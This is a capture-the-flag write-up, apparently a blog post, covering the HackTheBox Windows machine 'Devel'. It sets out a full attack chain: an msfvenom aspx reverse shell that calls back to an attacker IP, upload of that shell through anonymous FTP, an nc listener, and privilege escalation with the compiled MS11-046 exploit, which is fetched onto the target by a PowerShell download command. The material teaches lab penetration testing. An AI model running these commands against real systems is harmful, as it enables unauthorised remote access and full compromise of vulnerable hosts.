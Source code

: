 ```yaml
---
title: "Devel"
date: 2023-07-03T17:35:59+02:00
tags: ["ftp","windows","web","privesc"]
categories: ["hackthebox"]
author: "Ayman Boulaich"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "This room is a windows room with a http service which runs iis7 web server which content is able at a misconfigured ftp service."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Devel
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/Devel

![Untitled](/HTB/devel-icon.png)

## Tools Used

- Nmap
- FTP
- Msfvenom
- Searchsploit

## Port Scanning

```bash
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst:
|_  SYST: Windows_NT
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The scan results shows two open ports, the port 80 has an iis7 web server and the port 21 a ftp service with the content of the website, one folder named aspnet_client gives us a clue of what framework is using the website.

## Enumeration

We can try a reverse shell since it allows us to log in the ftp server anonymously.

First we are going to list the formats we can use with:

```bash
msfvenom --list formats
```

A format specially caught my attention and it’s the aspx format which is used by the [asp.net](http://asp.net) 

We can build the reverse shell with:

```bash
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.20 LPORT=4444 -o reverse-shell.aspx
```

## Exploiting

Let’s exploit the machine

First we are going to connect with the ftp client anonymously with:

```bash
ftp 10.10.10.5 21
```

Once there, let’s send the reverse shell with mput command:

```bash
mput ~/Documents/exploits/reverse-shell.aspx
```

Only left a listener

```bash
nc -lv 4444
```

Now let’s run the file in the browser http://10.10.10.5/reverse-shell.aspx.

## Gaining an Initial Foothold

We are in now. Let’s see if we are root users or not.

![Untitled](/HTB/devel-1.png)

![Untitled](/HTB/devel-2.png)

If we try to enter in the users folder seems that we don’t have permissions.

![Untitled](/HTB/devel-3.png)

## Escalating Privilege

We can list the system information to see if we can escalate privileges.

![Untitled](/HTB/devel-4.png)

Our version is the Windows 7 build 7600 x86, it’s fairly old and no hotfix(s) are applied.

In searchsploit seems doesnt have any result.

![Untitled](/HTB/devel-5.png)

If we google it we can see a [exploit](https://www.exploit-db.com/exploits/40564) that fits well with what we want to do.

![Untitled](/HTB/devel-6.png)

![Untitled](/HTB/devel-7.png)

The exploit CVE-**[2011-1249](https://nvd.nist.gov/vuln/detail/CVE-2011-1249)** help us to escalate privileges.

Let’s download the exploit with searchsploit 

```bash
searchsploit -m "40564"
```

If we take a look to the documentation of the exploit we can see that the exploit need to be compiled with `mingw32` first.

```bash
i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
```

Now let’s create a http server with python to send this .exe.

```bash
python -m http.server 80
```

The remote machine doesn’t seems to have netcat but has powershell we can download the file with:

```bash
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.20:80/MS11-046.exe', 'c:\Users\Public\Downloads\40564.exe')"
```

Once we have the exploit only left to run it, we can find it in c:\Users\Public\Downloads

![Untitled](/HTB/devel-9.png)

![Untitled](/HTB/devel-10.png)

We have gained root access.

## Flag(s)

Let’s navigate to the user and root Desktops where we can find the flags.

**User Flag**

![Untitled](/HTB/devel-11.png)

**Root Flag**

![Untitled](/HTB/devel-12.png)

## Lessons Learned

- What insights did you gain from the room?
    
    We learned to put a reverse shell via the ftp service as well as escalate privilege with a exploit that take advantage of the afd.sys file.
    
- Were there any novel tools or techniques employed?
    
    We don’t employed any new tools but he know now a new format of reverse shell (aspx) that is employed by Microsoft [asp.net](http://asp.net).

**Thank you for reading, and happy hacking! 😄**